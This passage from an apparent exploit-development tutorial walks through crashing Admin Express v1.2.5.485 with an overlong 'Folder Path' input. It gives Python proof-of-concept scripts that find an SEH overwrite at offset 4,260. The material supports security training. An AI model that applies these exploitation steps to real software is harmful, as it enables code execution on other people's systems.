 ```console
root@kali:~/ADMIN_EXPRESS/POC# cat poc.py 
# Proof of Concept - Admin Express v1.2.5.485 Exploit

payload = "\x41" * 5000

print payload

#f = open('pwn.txt', 'w')
#f.write(payload)
#f.close()
```
A couple of notes about the above exploit. This script will generate 5,000 `\x41` characters, or A's. Notice how at the bottom of the script, the last three lines are commented out. This is due to the fact that this exploit would get tedious opening up a file every time. Until we have completed the full development of this exploit, we will leave these lines commented out and print straight to the console.


Here are the next steps to get started:
1. After attaching and starting the application in Immunity, click on the __System Compare__  tab in Admin Express.
2. Run the above PoC script and copy the output to the clipboard.
3. Paste the contents into the left-hand __Folder Path__ field, and press the __scale icon__ to the right of that same __Folder Path__ field

<img src="{{ site.url }}{{ site.baseurl }}/images/1.png" alt="">

Shifting focus back over to Immunity shows a crash of the application! Now on to some more in depth and intricate analysis of the crash.

After the crash, take a look at the registers. It seems at first glance we can control EBP, ESI, EDI, and EDX:

<img src="{{ site.url }}{{ site.baseurl }}/images/2.png" alt="">

Seeing as we cannot control the instruction pointer, the logical next choice would be to see if there was an exception caught. If we can overwrite the exception handlers, we can still potentially obtain code execution by manipulating the exception handlers and passing the exceptions onto the stack! After viewing the registers in Immunity, we see we can control nSEH and SEH!

<img src="{{ site.url }}{{ site.baseurl }}/images/3.png" alt="">

As I have already explained in a [previous post](https://connormcgarr.github.io/Exception-Handlers-and-Egg-Hunters/) how exception handler exploits work, I will omit finding the offset of the exception handlers. I want this post to be more about alphanumeric encoding, stack alignments, and getting creative. I can tell you that the number of bytes needed to reach the handlers is __4,260__.

For those of you following along or are interested, your POC should be updated to this:

```console
root@kali:~/ADMIN_EXPRESS/POC# cat poc.py 
# Proof of Concept - Admin Express v1.2.5.485 Exploit

payload = "\x41" * 4260
payload += "\x42\x42\x42\x42" 		# nSEH
payload += "\x43\x43\x43\x43"		# SEH
payload += "\x41" * (5000-len(payload))	# The remaining bytes to create the crash

print payload

#f = open('pwn.txt', 'w')
#f.write(payload)
#f.close()
```
